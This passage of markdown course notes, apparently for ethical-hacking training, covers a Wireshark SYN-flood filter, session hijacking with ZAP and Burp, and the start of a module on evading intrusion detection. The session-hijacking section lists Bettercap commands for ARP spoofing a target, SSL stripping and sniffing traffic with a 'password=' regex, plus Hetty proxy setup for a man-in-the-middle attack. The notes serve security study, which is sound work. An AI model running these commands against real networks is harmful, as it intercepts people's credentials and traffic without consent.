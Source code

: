 > Wireshark
- Yellow, black or blue packets (SYN, TCP, UDP, ARP, ECN, CWR)
> Wireshark see DDOS attack
- tcp.flags.syn == 1 and tcp.flags.ack == 0

----

# <span style="color: #e84393; font-size: 1em;">Module 11: Session Hijacking</span>

## <span style="color: #3498db; font-size: 0.8em;">    Hijack a Session</span>

> Zep Attack Proxy (ZAP)
- Intercept the request and change the host, origin and referer headers.

> Burp Suite


## <span style="color: #3498db; font-size: 0.8em;">    Intercept HTTP Traffic</span>

>  Bettercap (sniffing, arp spoof, net recon and more)
- bettercap -iface interface
- net.probe on
- net.recon on
- set http.proxy.sslstrip true
- set arp.spoof.internal true
- set arp.spoof.targets IPtarget
- http.proxy on
- arp.spoof on
- net.sniff on
- set net.sniff.regexp expresion
- ('.* password=.+')

> Hetty (Windows) - MIMT attack
- click on it
- http://localhost:8080
- create new project
- Chrome > Settings > System > Manual proxy > ON > IP and port 8080

> WireShark


----

# <span style="color: #e84393; font-size: 1em;">Module 12: Evading IDS, Firewalls and Honeypots</span>

## <span style="color: #3498db; font-size: 0.8em;">    Detect Intrusions</span>
